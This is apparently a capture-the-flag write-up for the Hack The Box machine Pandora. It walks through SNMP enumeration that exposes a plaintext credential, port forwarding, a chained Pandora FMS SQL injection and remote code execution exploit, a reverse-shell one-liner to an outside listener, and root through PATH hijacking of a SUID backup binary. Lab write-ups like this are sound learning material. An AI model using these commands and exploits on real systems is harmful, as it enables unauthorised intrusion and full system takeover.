 # Take Away
- Shell session has problem with `setuid()`. The reason are explained in the `Byond Root` section in the post by `0xdf`.
	- `AssignedUserId` with `MPM ITK Apache module`
	- https://0xdf.gitlab.io/2022/05/21/htb-pandora.html
# Metadata
- `onesixtyone` will find the SNMP community string being `public`.![[Pasted image 20240303162920.png]]
	- Further enumeration with community string and `nmap` will find a pair of plaintext credential `daniel:HotelBabylon23`![[Pasted image 20240303163349.png]]
- Enumerate as `daniel` and looking at `/etc/apache2/sites-enabled/pandora.conf` will find another virtual host `pandora.panda.htb` only listening at `localhost:80` and is running as local user `matt`.![[Pasted image 20240303164035.png]]
	- Set up `local port forward` with `ssh -v -N -L 8080:127.0.0.1:80 daniel@10.10.11.136` and add `127.0.0.1 pandora.panda.htb` to `/etc/hosts` to access the virtual host.
- Upon visiting `http://pandora.panda.htb:8080/`, one can identify it is running `Pandora FMS v7.0NG.742_FIX_PERL2020`![[Pasted image 20240303164521.png]]
	- A little googling can find an `unauthenticated SQLi(CVE-2021-32099)` that allows authentication bypass to get admin access. Furthermore, there is one `authenticated RCE(CVE-2020-5844)` that requires admin access. When chained together, RCE can be achieved. 
	- There is already an exploit that work out of the box on GitHub `https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated`  
# Exploitation
## Shell as daniel
- Using the found credential, run `ssh daniel@10.10.11.136` to obtain a SSH session.
## Shell as matt
- Download the Git Repository and run `python3 sqlpwn.py -t 127.0.0.1:8080` to get a interactive web shell.
	- Upgrade the shell by setting up listener and run `/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.23/443 0>&1'`. However, the web shell is kind wonky. So I opt for manual command using `burp`.![[Pasted image 20240303175737.png]]
# PrivEsc
- `linpeas` will identify a `SUID` binary called `pandora_backup` under `/usr/bin`. Upon examining the content, we can see that it trying to run `tar` without an absolute path specified.![[Pasted image 20240303195644.png]]
- However, the current shell session has problem with `setuid()`. The reason are explained in the `Byond Root` section in the post by `0xdf`.
	- https://0xdf.gitlab.io/2022/05/21/htb-pandora.html
	- ![[Pasted image 20240303195835.png]]
- Hence, one needs to drop in SSH public and private key pair to be able to get a  SSH session as `matt` so `setuid()` functions properly.
- With the new session, run `echo -e '#!/bin/bash\n\nbash -p -i' > /dev/shm/tar;chmod +x /dev/shm/tar;export PATH=/dev/shm:$PATH` to hijack relative path.
- Finally, run `pandora_backup` to obtain a root shell.
